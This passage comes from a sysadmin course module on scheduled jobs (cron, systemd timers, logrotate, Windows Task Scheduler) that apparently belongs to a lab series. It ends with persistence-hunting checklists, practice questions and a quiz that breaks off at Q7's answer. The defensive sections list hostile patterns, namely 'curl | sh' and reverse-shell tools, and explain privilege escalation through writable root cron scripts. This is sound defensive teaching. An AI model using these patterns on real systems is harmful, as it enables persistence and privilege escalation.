    Look at the Berlin example: starting from Saturday 27 March 2027, the first run is on **Monday 29 March**. 02:30 local time does not exist on Sunday 28 March (clocks jump from 02:00 to 03:00), so systemd skips that day. Debian's cron behaves differently — jobs in the skipped hour run soon after the change (cron(8)). Either way, a UTC schedule avoids the question. (In the container `verify` also printed an unrelated "Binding to IPv6 address not available" line, omitted here, and the working-directory paths are shown as `~/day25`.)

    On a real Ubuntu VM, after `sudo systemctl enable --now lab25-health.timer`:

    ```bash
    systemctl list-timers 'lab25*'
    systemctl status lab25-health.service --no-pager
    journalctl -u lab25-health.service -n 3 --no-pager
    ```

    **Expected output (example):**

    ```text
    NEXT                        LEFT LAST                        PASSED UNIT                       ACTIVATES
    Thu 2026-11-19 17:15:00 UTC 9min Thu 2026-11-19 17:00:01 UTC 5min ago lab25-health.timer       lab25-health.service
    Fri 2026-11-20 02:38:12 UTC 9h   -                           -      lab25-health-nightly.timer lab25-health-nightly.service

    2 timers listed.
    × lab25-health.service - Lab 25 health check (quick, every 15 minutes)
         Loaded: loaded (/etc/systemd/system/lab25-health.service; static)
         Active: failed (Result: exit-code) since Thu 2026-11-19 17:00:01 UTC; 5min ago
    TriggeredBy: ● lab25-health.timer
        Process: 2412 ExecStart=/home/student/lab25/bin/lab25-run-health.sh quick (code=exited, status=3)
       Main PID: 2412 (code=exited, status=3)
    Nov 19 17:00:01 ubuntu-lab systemd[1]: Starting lab25-health.service - Lab 25 health check (quick, every 15 minutes)...
    Nov 19 17:00:01 ubuntu-lab lab25[2415]: mode=quick status=ALERT exit=3 duration=0s report=system-health-ubuntu-lab-20261119T170001Z.txt
    Nov 19 17:00:01 ubuntu-lab systemd[1]: lab25-health.service: Main process exited, code=exited, status=3/NOTIMPLEMENTED
    ```

    systemd names exit status 3 `NOTIMPLEMENTED` (from the LSB init-script convention) — for this job it simply means "threshold breached". The nightly timer's next run is not exactly 02:30 because of `RandomizedDelaySec=15min`.

=== "PowerShell"

    ```powershell
    # Preview a task definition before registering it: build the objects and inspect them
    $trigger = New-ScheduledTaskTrigger -Daily -At '02:30'
    $trigger | Select-Object StartBoundary, DaysInterval, Enabled
    $settings = New-ScheduledTaskSettingsSet -StartWhenAvailable -ExecutionTimeLimit (New-TimeSpan -Minutes 10)
    $settings | Select-Object StartWhenAvailable, ExecutionTimeLimit, MultipleInstances, DisallowStartIfOnBatteries
    ```

    **Expected output (example):**

    ```text
    StartBoundary             DaysInterval Enabled
    -------------             ------------ -------
    2026-11-19T02:30:00+05:30            1    True

    StartWhenAvailable ExecutionTimeLimit MultipleInstances DisallowStartIfOnBatteries
    ------------------ ------------------ ----------------- --------------------------
                  True PT10M              IgnoreNew                               True
    ```

    The trigger time is **local** time (here a PC in India, UTC+05:30); the time limit is stored in ISO 8601 duration format (`PT10M`). Note `DisallowStartIfOnBatteries = True` — the default.

### Demo 9 — Rotate the job log with `logrotate`

=== "Bash"

    ```bash
    sudo tee /etc/logrotate.d/lab25-health >/dev/null <<'EOF'
    /home/student/lab25/log/*.log {
        su student student
        weekly
        rotate 8
        maxsize 5M
        compress
        delaycompress
        missingok
        notifempty
        create 0640 student student
    }
    EOF
    sudo logrotate -d /etc/logrotate.d/lab25-health
    ```

    **Expected output (captured):**

    ```text
    warning: logrotate in debug mode does nothing except printing debug messages!  Consider using verbose mode (-v) instead if this is not what you want.

    reading config file /etc/logrotate.d/lab25-health
    Reading state from file: /var/lib/logrotate/status
    state file /var/lib/logrotate/status does not exist
    Allocating hash table for state file, size 64 entries

    Handling 1 logs

    rotating pattern: /home/student/lab25/log/*.log  weekly (8 rotations)
    empty log files are not rotated, log files >= 5242880 are rotated earlier, old logs are removed
    switching euid from 0 to 30035 and egid from 0 to 30036 (pid 6731)
    considering log /home/student/lab25/log/cron-stderr.log
    Creating new state
      Now: 2026-11-19 16:54
      Last rotated at 2026-11-19 16:00
      log does not need rotating (log has already been rotated)
    considering log /home/student/lab25/log/health.log
    Creating new state
      Now: 2026-11-19 16:54
      Last rotated at 2026-11-19 16:00
      log does not need rotating (log has already been rotated)
    switching euid from 30035 to 0 and egid from 30036 to 0 (pid 6731)
    ```

    A log seen for the first time is recorded as "already rotated" now; the first real rotation happens a week later (or at 5 MiB). When the same drop-in **without** the `su` line was tested on a log directory with mode 770, logrotate refused: `error: skipping "/home/student/lab25/log/health.log" because parent directory has insecure permissions (It's world writable or writable by group which is not "root") Set "su" directive in config file to tell logrotate which user/group should be used for rotation.` (captured). `logrotate` was installed in the release container with `apt-get install logrotate` for this test; it is preinstalled on standard Ubuntu.

=== "PowerShell"

    ```powershell
    # No logrotate on Windows: rotate in the script or in a small clean-up task
    $log = 'C:\Lab25\log\health.log'
    if ((Test-Path $log) -and (Get-Item $log).Length -gt 5MB) {
        Move-Item $log ($log -replace '\.log$', ('-{0:yyyyMMdd}.log' -f (Get-Date)))
    }
    Get-ChildItem C:\Lab25\log\health-*.log, C:\Lab25\reports\System-Health-* -ErrorAction SilentlyContinue |
        Where-Object LastWriteTime -lt (Get-Date).AddDays(-14) | Remove-Item -WhatIf
    ```

    **Expected output (example):**

    ```text
    What if: Performing the operation "Remove File" on target "C:\Lab25\reports\System-Health-WIN11-LAB-20261101T023001Z.csv".
    ```

### Demo 10 — Register, run and inspect a Windows task

=== "Bash"

    ```bash
    # The Linux counterpart of "run it now and check the result":
    sudo systemctl start lab25-health.service; systemctl show lab25-health.service -p Result -p ExecMainStatus
    # with cron only: run the exact crontab command line by hand as the job user, in a cron-like environment
    env -i HOME="$HOME" LOGNAME="$USER" PATH=/usr/bin:/bin SHELL=/bin/sh /bin/sh -c '/home/student/lab25/bin/lab25-run-health.sh quick'; echo "exit=$?"
    ```

    **Expected output (example):**

    ```text
    Result=exit-code
    ExecMainStatus=3
    exit=3
    ```

=== "PowerShell"

    ```powershell
    # elevated PowerShell; $action, $trigger, $principal, $settings as in "Detailed Command Explanations"
    Register-ScheduledTask -TaskName 'Lab25-Health' -TaskPath '\Lab25\' -Action $action -Trigger $trigger `
        -Principal $principal -Settings $settings -Description 'Lab 25 health check every 15 minutes'
    Get-ScheduledTaskInfo -TaskPath '\Lab25\' -TaskName 'Lab25-Health'
    Start-ScheduledTask -TaskPath '\Lab25\' -TaskName 'Lab25-Health'
    Start-Sleep -Seconds 1; (Get-ScheduledTaskInfo -TaskPath '\Lab25\' -TaskName 'Lab25-Health').LastTaskResult
    Start-Sleep -Seconds 15
    $info = Get-ScheduledTaskInfo -TaskPath '\Lab25\' -TaskName 'Lab25-Health'
    $info | Select-Object LastRunTime, LastTaskResult, @{N = 'Hex'; E = { '0x{0:X}' -f $_.LastTaskResult }}, NextRunTime
    Get-WinEvent -FilterHashtable @{ LogName = 'Microsoft-Windows-TaskScheduler/Operational'; Id = 100, 102, 129, 200, 201
                                     StartTime = (Get-Date).AddMinutes(-5) } |
        Where-Object Message -like '*\Lab25\Lab25-Health*' |
        Select-Object TimeCreated, Id, @{N = 'Message'; E = { ($_.Message -split "`n")[0] }} | Format-List
    ```

    **Expected output (example):**

    ```text
    TaskPath                                       TaskName                          State
    --------                                       --------                          -----
    \Lab25\                                        Lab25-Health                      Ready

    LastRunTime        : 11/30/1999 12:00:00 AM
    LastTaskResult     : 267011
    NextRunTime        : 11/19/2026 5:00:00 PM
    NumberOfMissedRuns : 0
    TaskName           : Lab25-Health
    TaskPath           : \Lab25\
    PSComputerName     :

    267009

    LastRunTime    : 11/19/2026 4:52:10 PM
    LastTaskResult : 3
    Hex            : 0x3
    NextRunTime    : 11/19/2026 5:00:00 PM

    TimeCreated : 11/19/2026 4:52:12 PM
    Id          : 102
    Message     : Task Scheduler successfully finished "{0f3c…}" instance of the "\Lab25\Lab25-Health" task for user "NT AUTHORITY\SYSTEM".

    TimeCreated : 11/19/2026 4:52:12 PM
    Id          : 201
    Message     : Task Scheduler successfully completed task "\Lab25\Lab25-Health" , instance "{0f3c…}" , action "powershell.exe" with return code 3.
    …
    ```

    `267011` (0x41303) = "has not yet run", `267009` (0x41301) = "currently running", then `3` = the script's own exit code, also visible in event **201**. "Successfully finished" only means the *task* ran to the end; the return code tells you the result.

## Linux vs PowerShell Comparison

| Task | Bash (Ubuntu) | PowerShell / Windows | Notes |
|---|---|---|---|
| Create a recurring job | `crontab -e` → `*/15 * * * * /path/job` | `Register-ScheduledTask` with a repeating trigger | ⚠ cron: absolute paths, escape `%` |
| Nightly at 02:30 | `30 2 * * *` · `OnCalendar=*-*-* 02:30:00` | `New-ScheduledTaskTrigger -Daily -At 02:30` | Prefer UTC servers |
| At boot | `@reboot` · `OnBootSec=2min` | `-AtStartup` | `@reboot` = cron start |
| At logon | (shell profile, `systemctl --user`) | `-AtLogOn` | |
| Run once later | `at 22:00` · `systemd-run --on-calendar=` | `-Once -At` · `schtasks /sc once` | |
| Catch up missed runs | `anacron` · `Persistent=true` | `-StartWhenAvailable` | cron skips missed runs |
| Run as a service account | `/etc/cron.d` user field · `User=` | `-Principal` SYSTEM / gMSA | least privilege |
| Prevent overlap | `flock -n LOCK CMD` | `-MultipleInstances IgnoreNew` · mutex | |
| Time limit | `timeout 120 CMD` · `TimeoutStartSec=` | `-ExecutionTimeLimit` | exit 124 vs task stopped (0x41306) |
| List jobs | `crontab -l` · `ls /etc/cron.d` · `systemctl list-timers` | `Get-ScheduledTask` | |
| Last result | `journalctl -u cron` · `systemctl status NAME` | `Get-ScheduledTaskInfo` (`LastTaskResult`) | |
| Run now | run the command by hand · `systemctl start NAME.service` | `Start-ScheduledTask` · `schtasks /run` | |
| Disable / enable | comment the line · `systemctl disable --now NAME.timer` | `Disable-` / `Enable-ScheduledTask` | |
| Remove | delete the line · `crontab -r` (all!) | `Unregister-ScheduledTask` | ⚠ `crontab -r` removes everything |
| Job history | `/var/log/syslog`, journal | TaskScheduler Operational log (enable it) | |
| Log from the job | `logger -t TAG` | `eventcreate` · `Write-EventLog` (5.1) | |
| Rotate logs | `logrotate` drop-in | script / clean-up task | |
| Test a schedule | `systemd-analyze calendar` | build the trigger object and inspect it | |
| Hunt for persistence | `crontab -l -u` loop, `/etc/cron*`, `/var/spool/cron`, `list-timers --all` | <code>Get-ScheduledTask &#124; Where-Object TaskPath -notlike '\Microsoft\*'</code>, events 106/4698 | T1053 |

## Real-World IT Scenarios

1. **The nightly backup that never ran.** A new script `/etc/cron.daily/db-backup.sh` was added three weeks ago. Nobody noticed that `run-parts` ignores names with dots until a restore was needed. `run-parts --test /etc/cron.daily` shows the problem in one second; the fix is `mv db-backup.sh db-backup` and a monitoring check on the age of the newest backup file.
2. **Monitoring that monitored nothing.** A crontab line with `date +%F` in it had failed with a shell syntax error every 15 minutes for months; the errors went to a mailbox that did not exist. Replacing it with a wrapper script that logs one line per run and alerts on exit 3 turned it into real monitoring — Lab 25.
3. **Thundering herd.** 400 Ubuntu servers ran `@daily` package-mirror syncs at 00:00:00 and overloaded the mirror. Moving to a systemd timer with `OnCalendar=daily` and `RandomizedDelaySec=2h` spread the load over two hours with no other change.
4. **Patch window.** Windows servers install updates and reboot every second Tuesday at 03:00 via a task running as SYSTEM; Linux servers use a systemd timer that runs `apt-get` with `unattended-upgrade` and `at` to schedule the reboot at 03:30 only when `/var/run/reboot-required` exists (the reboot check of `system-health.sh`).
5. **Laptop compliance report.** A weekly inventory script on staff laptops never ran on Sundays at 06:00 because the laptops were closed. `-StartWhenAvailable` on Windows and `Persistent=true` (or anacron) on Linux run it at the next start-up.
6. **"It works when I run it."** A Windows task failed with `0x1` every night. Running the exact action line by hand with `-NonInteractive` showed it waited for a `Read-Host` prompt; as SYSTEM there is no one to answer. Removing the prompt and passing a parameter fixed it.

## Cybersecurity Application

Scheduled tasks are one of the most common **persistence** and **privilege-escalation** techniques, catalogued by MITRE ATT&CK as **T1053 Scheduled Task/Job**:

| Sub-technique | Where attackers hide | Where defenders look |
|---|---|---|
| **T1053.003 Cron** | User crontabs, `/etc/crontab`, `/etc/cron.d/`, `cron.daily` scripts, `@reboot` lines | `/var/spool/cron/crontabs/`, `/etc/cron*`, syslog `CRON` lines, file modification times |
| **T1053.002 At** | `at` jobs (also used for lateral movement) | `atq`, `/var/spool/cron/atjobs/` |
| **T1053.006 Systemd Timers** | `.timer` + `.service` in `/etc/systemd/system/` or `~/.config/systemd/user/` | `systemctl list-timers --all`, `systemctl --user list-timers`, unit file paths and times |
| **T1053.005 Scheduled Task** | Tasks in the root folder or disguised under `\Microsoft\Windows\…`, `powershell -enc …` actions, SYSTEM principal | `Get-ScheduledTask` actions and principals, events 106/140/141 and 4698–4702, `C:\Windows\System32\Tasks` |

**Hunting checklist (Linux):**

```bash
for u in $(cut -d: -f1 /etc/passwd); do
    sudo crontab -l -u "$u" 2>/dev/null | grep -Ev '^[[:space:]]*(#|$)' | sed "s/^/$u: /"
done
sudo ls -la /var/spool/cron/crontabs/ /etc/cron.d/ /etc/cron.{hourly,daily,weekly,monthly}/
grep -Ev '^[[:space:]]*(#|$)' /etc/crontab /etc/cron.d/*
sudo atq
systemctl list-timers --all; ls -la /etc/systemd/system/*.timer ~/.config/systemd/user/ 2>/dev/null
find /etc/cron* /etc/systemd/system /var/spool/cron -newermt '-7 days' -ls 2>/dev/null   # changed this week
```

Red flags: jobs running from `/tmp`, `/dev/shm` or hidden files (`/tmp/.x`), `curl … | sh`, `base64 -d`, `nc`/`bash -i` (reverse shells), unusual users (`www-data` with a crontab), recently modified cron files, a `cron.d` file named like a package that is not installed.

**Writable scripts run by root = privilege escalation.** If root's cron runs `/usr/local/bin/backup.sh` and that file (or its directory) is writable by a normal user, that user can add any command and wait for root to run it. Audit it (captured with a deliberately unsafe example):

```bash
for f in /etc/crontab /etc/cron.d/*; do
    awk '!/^[[:space:]]*(#|$)/ && $1 !~ /=/ { print ($1 ~ /^@/) ? $3 : $7 }' "$f"
done | sort -u | while read -r cmd; do
    [[ $cmd == /* && -e $cmd ]] || continue
    find "$cmd" -maxdepth 0 \( -perm -o+w -o -perm -g+w -o ! -user root \) -printf 'RISK %m %u:%g %p\n'
done
```

**Expected output (captured):**

```text
RISK 777 root:root /usr/local/bin/lab25-backup.sh
```

The same applies on Windows: a SYSTEM task running `C:\Scripts\job.ps1` where `C:\Scripts` inherits the default `C:\` permissions (Authenticated Users may create and modify files in new top-level folders) is an escalation path. Lock the folder down (`icacls`) or keep scripts under `C:\Program Files\`.

**Hunting checklist (Windows):**

```powershell
Get-ScheduledTask | Where-Object TaskPath -notlike '\Microsoft\*' |
    Select-Object TaskPath, TaskName, State,
        @{N = 'RunAs'; E = { $_.Principal.UserId }},
        @{N = 'Execute'; E = { ($_.Actions | ForEach-Object { "$($_.Execute) $($_.Arguments)" }) -join ' ; ' }}
Get-WinEvent -FilterHashtable @{ LogName = 'Security'; Id = 4698 } -MaxEvents 20     # needs auditing enabled
Get-WinEvent -FilterHashtable @{ LogName = 'Microsoft-Windows-TaskScheduler/Operational'; Id = 106 } -MaxEvents 20
```

Attackers also hide tasks **inside** `\Microsoft\Windows\` with plausible names, so for a thorough hunt also review actions there that point to user-writable paths (`AppData`, `Temp`, `ProgramData`) or `powershell.exe -enc`. Always **record evidence before removing** a malicious job (file contents, hashes, timestamps, the exported task XML), and look for the dropper that created it.

**Least privilege for your own jobs:** run as a dedicated account (or `User=` in systemd, a gMSA on Windows), never as root/SYSTEM unless the job needs it; keep job scripts owned by root (or the job account) and not writable by others; do not put passwords in crontabs or task arguments (they are readable in `ps`, `/proc`, the task XML and event logs).

## Network Analyst Application

- **Scheduled connectivity and DNS checks.** The Day 13–15 scripts already return exit 3 when something fails: `*/5 * * * * /opt/netcheck/dns-check.sh -n example.com -s system,192.0.2.53 -o /var/lib/netcheck/dns` and `network-diagnostic.sh -t 192.0.2.10 -p 443`. Logged every five minutes, they prove *when* the resolver started failing — the first question in every outage call.
- **Listener baselines.** `port-monitor.sh -b baseline.txt -e` nightly flags a NEW listening port (exit 3) — a new service or a backdoor.
- **Scheduled packet capture with rotation.** Instead of a cron loop, let the capture tool rotate: `sudo timeout 1h tcpdump -i eth0 -w /var/captures/edge-%Y%m%d-%H%M.pcap -G 900 -W 4 'port 53'` writes a new file every 15 minutes (`-G 900`, strftime names) and stops after 4 files (`-W 4`); in a crontab every `%` must be written `\%`, which is one more reason to put it in a script. Delete old captures with `find /var/captures -name '*.pcap' -mtime +3 -delete`. On Windows, `pktmon` or `netsh trace` can be started by a task in the same way.
- **Time stamps.** Correlating your scheduled checks with firewall and router logs only works if every system uses NTP and logs in UTC.
- **Do not flood.** A check every minute from 300 hosts against one target is a small load test; spread with `RandomizedDelaySec=` and keep intervals sensible.

## System Administrator Application

- **Nightly health check + 15-minute quick check** with `system-health.sh` / `System-Health.ps1`, a wrapper, a lock, a log line, an alert on exit 3 and report retention — Lab 25 builds exactly this.
- **Backups:** `flock` so two backups never overlap, `timeout` so a hung NFS mount does not block tomorrow's run, an exit-code check, and a **separate** check that the newest backup file is younger than 26 hours (a backup job that silently stops running is the worst kind).
- **Patch windows:** schedule updates and reboots in agreed windows; `at` for one-off reboots after change approval; check `reboot-required` with the health script.
- **Reports:** weekly capacity (Day 24 CSV/HTML) and failed-login reports (Day 17) generated before Monday morning, stored with the date in the file name.
- **Document every job:** a comment above each crontab line (owner, ticket, purpose), a `Description=` in each unit, a `-Description` on each task, and a folder (`\Company\`) for your tasks.
- **Prefer timers on systemd systems** for anything important: logs per job, status, dependencies and sandboxing come for free; keep cron for simple user jobs and portability.

## Common Mistakes

| Mistake | What happens | Correct approach |
|---|---|---|
| Relative paths / commands outside `/usr/bin:/bin` | `command not found` or the wrong file only under cron | Absolute paths; set `PATH` in the script |
| Unescaped `%` in a crontab | Command cut off; rest becomes stdin; often a syntax error | `\%`, or move the command into a script |
| `> /dev/null 2>&1` on everything | Failures are invisible | Log to a file / `logger`; quiet only when OK |
| Relying on cron mail | "No MTA installed, discarding output" | Log and alert yourself, or install and test an MTA |
| `crontab -r` instead of `-e` | Whole crontab deleted | Back up with `crontab -l > file`; use `-i` |
| `/etc/cron.daily/job.sh`, `/etc/cron.d/job.conf` | Silently ignored (dot in name) | Names with letters, digits, `-`, `_` only; check with `run-parts --test` |
| Missing user field in `/etc/cron.d` | The command's first word is taken as the user; job fails | `MIN HOUR DOM MON DOW USER COMMAND` |
| Restricting both day fields | Runs on day-of-month **or** weekday | Restrict one, test the other in the command |
| No locking on frequent jobs | Overlapping runs, corrupted output | `flock -n` / `IgnoreNew` |
| No time limit | One hung run blocks or piles up | `timeout`, `TimeoutStartSec=`, `-ExecutionTimeLimit` |
| `@daily` on every server | All jobs at 00:00:00 | Odd minutes, `RandomizedDelaySec=` |
| Local-time schedules at 01:00–03:00 | Skipped or doubled on DST days | UTC, or schedule outside the DST hour |
| Editing a timer without `daemon-reload` | Old schedule stays active | `sudo systemctl daemon-reload` |
| Enabling the service instead of the timer | Runs once at boot, never on schedule | `systemctl enable --now NAME.timer` |
| User timer stops at logout | Jobs only run while logged in | `loginctl enable-linger USER` |
| Task action with `-Command` and `exit 3` in a script | `LastTaskResult` shows 1 or 0 | Use `-File` |
| SYSTEM task running a user-writable script | Privilege escalation | Restrict folder ACLs; scripts in protected paths |
| Task does not run on laptops | Default "don't start on batteries" | `-AllowStartIfOnBatteries -DontStopIfGoingOnBatteries` |
| Password in a crontab or task argument | Readable in `ps`, XML, logs | Credential store, gMSA, root-only config file |

## Troubleshooting Guide

| Symptom | Likely cause | Fix |
|---|---|---|
| Job never runs, no `CMD` line in the log | cron not running; file ignored (dot in name, wrong owner/mode, no trailing newline); wrong user field | `systemctl status cron`; `run-parts --test`; `ls -l /etc/cron.d`; check syslog for `ERROR` |
| `CMD` line present, nothing happens | Error output discarded (no MTA) | Redirect to a log: `>> /path/job.log 2>&1`; check `grandchild … failed with exit status N` |
| `command not found` only under cron | Minimal `PATH` | Absolute paths or `PATH=` in the script |
| `/bin/sh: 1: Syntax error: Unterminated quoted string` | Unescaped `%` | `\%` or a script |
| Works in your shell, not in cron | Depends on profile, aliases, `cd`, `ssh-agent`, `DISPLAY` | Test with `env -i HOME=$HOME PATH=/usr/bin:/bin /bin/sh -c 'COMMAND'` |
| Job runs at the wrong hour | System time zone differs from what you assumed; `TZ=` in crontab ignored for scheduling | `timedatectl`; schedule in system time; systemd `OnCalendar=… UTC` |
| `You (alice) are not allowed to use this program (crontab)` | `cron.allow` exists without the user, or user in `cron.deny` | Ask the admin; check both files |
| Two copies running | No lock; job slower than its interval | `flock -n`; raise the interval |
| Timer listed but never fires | Not enabled/started; bad `OnCalendar=` | `systemctl enable --now X.timer`; `systemd-analyze calendar`; `systemd-analyze verify` |
| Service `failed (Result: exit-code)` `status=3` | Your script reported an alert | Intended; read the log; `SuccessExitStatus=3` only if you do not want the failed state |
| `logrotate: … parent directory has insecure permissions` | Group/world-writable log directory | `su USER GROUP` in the drop-in, or fix the mode |
| Task `LastTaskResult` 0x41303 forever | Trigger never reached; task disabled; start boundary in the future | `Get-ScheduledTask` `State`, triggers, `NextRunTime` |
| 0x80070002 | Program or script path wrong | Fix `-Execute`/`-Argument`; quote paths with spaces |
| 0x1 | Generic error, often `-Command` or a script error | Use `-File`; add `Start-Transcript`; run the action by hand with `-NonInteractive` |
| Task "runs" but cannot reach a share | SYSTEM/S4U has no user network credentials | gMSA or a domain service account |
| No history in Task Scheduler | Operational log disabled | `wevtutil sl Microsoft-Windows-TaskScheduler/Operational /e:true` (admin) |
| Event 322 | Previous instance still running (`IgnoreNew`) | Expected when a run is slow; check why it is slow |

## Hands-on Lab

Complete **[Lab 25: Scheduled Health Checks](../../labs/lab-25.md)**. The operations team wants a nightly and an every-15-minutes health check with logging, locking, rotation and an alert on exit 3, migrated from a fragile crontab line copied from an old server. A setup script plants that line and one suspicious job. You will:

1. Audit every crontab on the machine and explain why the legacy line has never worked.
2. Write `lab25-run-health.sh`: absolute paths, `flock -n`, `timeout`, a UTC log line, the report via `system-health.sh -o`, exit-code mapping and `logger -t lab25`.
3. Install it as a user crontab every 15 minutes (plus nightly) and prove that it really fired.
4. Prove the overlap protection.
5. Convert it to systemd timers and verify them with `systemd-analyze verify`/`calendar` (and `systemctl list-timers` on a VM).
6. Add a `logrotate` drop-in and test it with `logrotate -d`.
7. On Windows: register `System-Health.ps1` as a scheduled task, run it, interpret `LastTaskResult 3` and read the operational events.
8. Hunt for persistence: list every scheduled job, find the planted one, record evidence and remove it; then clean up.

## Practice Questions

1. Write a crontab line that runs `/usr/local/bin/report` at 07:45 on weekdays.
2. What does `*/20 9-17 * * *` mean?
3. A colleague writes `0 3 1 * 0` expecting "03:00 on the 1st of the month if it is a Sunday". What does it really do, and how do you get the intended behaviour?
4. Why does `0 2 * * * tar czf /backup/home-$(date +%F).tgz /home` fail in a crontab, and give two fixes.
5. Name four ways the cron environment differs from your interactive shell on Ubuntu.
6. Where are user crontabs stored on Ubuntu and on RHEL, and why should you not edit those files directly?
7. Why would `/etc/cron.daily/cleanup.sh` never run, and how do you check which scripts `run-parts` will run?
8. What is the difference between a line in `/etc/crontab` and a line in a user crontab?
9. What does `flock -n /run/lock/job.lock /usr/local/bin/job` do when a previous run still holds the lock, and what exit status results?
10. What exit status does `timeout 60 cmd` return when the limit is reached, and what does `-k 10` add?
11. When is anacron the right choice rather than cron, and what does `Persistent=true` do for a systemd timer?
12. Write the `[Timer]` section for a job that runs at 02:30 UTC every night, catches up after downtime and is spread over 20 minutes on a fleet.
13. Which command checks an `OnCalendar=` expression, and which checks a whole unit file?
14. A user timer works while you are logged in but not at night. Why, and what fixes it?
15. In a Windows task action, why use `-File` rather than `-Command` to run a script, and what do `-NoProfile` and `-NonInteractive` prevent?
16. `Get-ScheduledTaskInfo` shows `LastTaskResult` 267011, later 3. What do they mean?
17. Name three settings in `New-ScheduledTaskSettingsSet` that matter for a health check and say why.
18. How do you list all non-Microsoft scheduled tasks with what they run and as whom?
19. Why is a root cron job that runs a group-writable script a security problem?
20. Why should scheduled scripts log timestamps in UTC?

??? success "Practice answers"
    1. `45 7 * * 1-5 /usr/local/bin/report`
    2. Every 20 minutes (minutes 0, 20 and 40) of every hour from 09:00 to 17:00 (the last run is 17:40), every day.
    3. Both day fields are restricted, so it runs at 03:00 on the 1st of **every** month **and** every Sunday. Restrict only one and test the other: `0 3 1 * * [ "$(date +\%u)" -eq 7 ] && /path/job` (`%u` = 7 for Sunday).
    4. The `%` characters are not escaped: cron cuts the command at the first `%` and passes the rest as stdin, giving `tar czf /backup/home-$(date +` — a syntax error. Fix 1: escape them, `$(date +\%F)`. Fix 2 (better): put the command in a script and call the script from cron.
    5. Any four: `PATH=/usr/bin:/bin`; `SHELL=/bin/sh` (dash); no `.profile`/`.bashrc`/aliases; working directory = home; no terminal; output goes to mail; `%` is special; system time zone only; no `ssh-agent`/`DISPLAY`.
    6. Ubuntu: `/var/spool/cron/crontabs/USER`; RHEL: `/var/spool/cron/USER`. Use `crontab -e`/`crontab FILE`, which checks the syntax, sets the right owner and mode and updates the spool modification time so cron reloads; direct edits can be malformed or not noticed.
    7. `run-parts` ignores file names containing a dot (and non-executable files). `run-parts --test /etc/cron.daily` lists what will run.
    8. `/etc/crontab` (and `/etc/cron.d/*`) lines have a sixth field with the **user** to run as; user crontab lines do not — they run as the crontab's owner.
    9. It does not run the job and exits immediately with status 1 (or the code given with `-E`). The running copy is unaffected.
    10. 124. `-k 10` sends SIGKILL 10 seconds after the first signal if the command is still running (exit 137 if it had to be killed).
    11. When the machine is not always on (laptops, desktops): anacron runs daily/weekly/monthly jobs that were missed. `Persistent=true` stores the last trigger time and runs the service once at boot if a scheduled run was missed while the system was off.
    12. `[Timer]` / `OnCalendar=*-*-* 02:30:00 UTC` / `Persistent=true` / `RandomizedDelaySec=20min`
    13. `systemd-analyze calendar 'EXPR'` (add `--iterations=N`); `systemd-analyze verify FILE.timer FILE.service`.
    14. The user's service manager stops when the last session ends, taking the timer with it. `sudo loginctl enable-linger USERNAME` keeps it running.
    15. With `-File` the script's `exit N` becomes the process exit code and thus `LastTaskResult`; `-Command` does not pass a script's exit code through reliably. `-NoProfile` avoids profile scripts changing behaviour or slowing the start; `-NonInteractive` makes prompts fail instead of hanging forever.
    16. 267011 = 0x41303 "the task has not yet run"; 3 = the action's exit code — the health check found a threshold breach.
    17. Any three: `-MultipleInstances IgnoreNew` (no overlap), `-ExecutionTimeLimit` (stop hung runs), `-StartWhenAvailable` (run after missed starts), `-RestartCount`/`-RestartInterval` (retry failed starts), `-AllowStartIfOnBatteries -DontStopIfGoingOnBatteries` (laptops).
    18. `Get-ScheduledTask | Where-Object TaskPath -notlike '\Microsoft\*' | Select-Object TaskPath, TaskName, State, @{N='RunAs';E={$_.Principal.UserId}}, @{N='Execute';E={$_.Actions.Execute}}, @{N='Arguments';E={$_.Actions.Arguments}}`
    19. Any member of the group can change the script, and root will execute whatever it contains at the next run — a privilege escalation from that group to root. Root jobs must only run files (and directories) writable by root.
    20. UTC has no daylight saving jumps, so times are unique and ordered, and logs from servers in different time zones (and network devices, cloud services) line up without conversion.

## Quiz

**Q1.** Which crontab line runs a job every 15 minutes?

- A. `15 * * * * /path/job`
- B. `*/15 * * * * /path/job`
- C. `* */15 * * * /path/job`
- D. `0/15 * * * * /path/job`

??? question "Answer and explanation"
    **B.** `*/15` in the minute field = minutes 0, 15, 30, 45. A runs once an hour at minute 15, C every minute of hours 0 and 15, and D is systemd-style syntax, not cron.

**Q2.** A crontab line `0 6 * * * /opt/report.sh > /tmp/r-$(date +%d).txt` never creates a file. The most likely reason is:

- A. cron does not support `$( )`
- B. The unescaped `%` cuts the command; the rest goes to stdin
- C. `/tmp` is not writable for cron
- D. The job needs `sudo`

??? question "Answer and explanation"
    **B.** cron turns the first unescaped `%` into a newline and passes the rest as standard input, so the shell sees an incomplete command. Use `\%` or a script.

**Q3.** Which file name in `/etc/cron.d/` is **ignored** by Ubuntu's cron?

- A. `lab25-health`
- B. `lab25_health`
- C. `lab25-health.cron`
- D. `LAB25health`

??? question "Answer and explanation"
    **C.** File names may contain only letters, digits, underscores and hyphens; a dot makes cron (and `run-parts`) skip the file without warning.

**Q4.** Your wrapper uses `flock -n` and a 15-minute schedule. A run takes 20 minutes. What happens at the next scheduled time?

- A. A second copy starts and both write the log
- B. cron waits until the first run ends
- C. The new run cannot get the lock and exits at once (logged as SKIP)
- D. cron kills the old run

??? question "Answer and explanation"
    **C.** `flock -n` fails immediately when the lock is held. cron itself never waits for or kills previous runs — that is why the lock is needed.

**Q5.** A systemd timer has `OnCalendar=daily` and `Persistent=true`. The server was switched off from 23:00 to 08:00. What happens?

- A. The midnight run is lost
- B. The service runs once soon after boot to catch up
- C. The service runs nine times, once per missed hour
- D. The timer is disabled

??? question "Answer and explanation"
    **B.** `Persistent=true` remembers the last trigger and starts the service once at boot if a scheduled time was missed. Without it the run would be skipped, as with cron.

**Q6.** On Windows, a task runs `powershell.exe -NoProfile -File C:\Lab25\bin\Lab25-Run-Health.ps1`, and the script ends with `exit 3`. What does `Get-ScheduledTaskInfo` show as `LastTaskResult`?

- A. 0, because the task finished
- B. 1
- C. 3
- D. 267009

??? question "Answer and explanation"
    **C.** With `-File`, the script's exit code becomes the process exit code, which Task Scheduler stores as the last result (event 201 shows "return code 3"). 267009 (0x41301) would mean "still running".

**Q7.** Which statement about Ubuntu's cron and time zones is correct?

- A. `CRON_TZ=Asia/Kolkata` in a crontab schedules that crontab in IST
- B. `TZ=UTC` in a crontab makes the jobs run at UTC times
- C. All jobs are scheduled in the system time zone; `TZ=` only changes the commands' environment
- D. cron always uses UTC

??? question "Answer and explanation"
